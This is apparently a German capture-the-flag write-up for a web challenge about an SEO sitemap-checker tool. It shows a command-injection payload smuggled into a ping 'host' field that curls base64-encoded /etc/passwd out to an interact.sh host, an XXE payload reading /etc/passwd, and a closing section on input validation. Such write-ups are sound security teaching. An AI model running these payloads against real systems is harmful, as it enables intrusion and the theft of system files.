






# Suchmaschinenoptimierung

## Optimierung für Suchende und Findende

_Das DBH-SEO-Tool: sitemap-Checker_ weißt vollmundig auf die dargebotenen Dienste hin:

> Schlechte Rankings waren besser. Optimieren Sie Ihre Onpage-Performance mit dem DBH-SEO-Tool.



### Lösungsvorschlag 1

Bei Analyse des Aufrufs ist zu erkennen, dass der zu pingende Host übergeben wird.
Der Output des Ping-Befehls ist klar zu erkennen.

Beim Experimentieren mit dem Befehl, ist schnell zu erkennen, dass eine `Command Injection` möglich ist.
Dazu kann in der Browser-Console, mit curl oder einem beliebigen Tool der Request abgesetzt werden.
In folgendem Beispiel wurde der Output base64-kodiert an einen Empfänger (interact.sh) gesendet.
Der Code kann in der Console der Entwicklertools (F12) ausgeführt werden.

```js
$.post(
	"handler.php",
	{
		action: "ping",
		host: "heise.de | curl cbhen142vtc00001qj6ggfazkowyyyyyb.interact.sh/$(tail /etc/passwd | base64 -w0)",
	},
	function (data) {
		console.log(data);
	}
);
```
Eingabe / Ausgabe der Console:


Curl Request bei interact.sh:


Flag in /etc/passwd:


### Lösungsvorschlag 2

Im Quelltext findet sich ein Artefakt, welches anzeigt, wie neue Hosts hinzugefügt werden:
   
   Wer das Code-Snippet nicht finden oder aktivieren kann, wird auch in der `app.js:addChannel()` fündig.

Nachdem das Snippet zum Hinzufügen neuer Channels entdeckt und aktiviert wurde, kann ein neuer Host hinzugefügt werden.
Dieser erlaubt standardmäßig die `sitemap.xml` via https: abzurufen.


```xml
<?xml version="1.0"?>
<!DOCTYPE results [<!ENTITY harmless SYSTEM "file:///etc/passwd">]>
<results>
  <result>&harmless;</result>
</results>
```

In diesem Fall greifen wir auf eine _Examples of XML External Entity Injection_[^1] zurück. Hiermit kann über den obigen Befehl eine zusätzliche Datei in das XML-File geladen werden. Wichtig ist, dass diese über einen _https_-Host mit der Endung _/sitemap.xml_ ausgeliefert wird.

## Flag
```
DBH{ServingYourCommand}
```

# Fix

Komplexe Anwendungen und vor allem das Arbeiten mit `user supplied content` ist eine große Herausforderung. Typischerweise wird versucht, einen Upload einer als `.jpg` getarnten php-Shell, zu vermeiden. Interaktive Dateitypen bieten dabei die größte Angriffsfläche und müssen geprüft werden. Dazu zählen Flash-, PDF-Dateien, Office Dokumente mit Macros, XML-Dateien und viele weitere mehr. Entweder müssen solche Befehle herausgefiltert oder das Dokument _non-interactive_ gerendert werden.

Eine Übergabe von User-Daten (in unserem Beispiel Hosts die gepingt werden) muss unbedingt und immer gefiltert und geprüft werden. In der Challenge filtern wir Shell-Commands heraus, sodass die Exfiltration erschwert wird. Eine korrekte Validierung des übergebenen Hosts muss implementiert werden. Dies kann entweder per `regex` oder vorhandener `parse_url`-Funktion, je nach eingesetzter Programmiersprache, umgesetzt werden. Never _ever_ trust user input.

## Footnotes

[^1]: vgl. https://github.com/padraic/phpsecurity/blob/master/book/lang/en/source/_includes/XML-Injection.rst#examples-of-xml-external-entity-injection
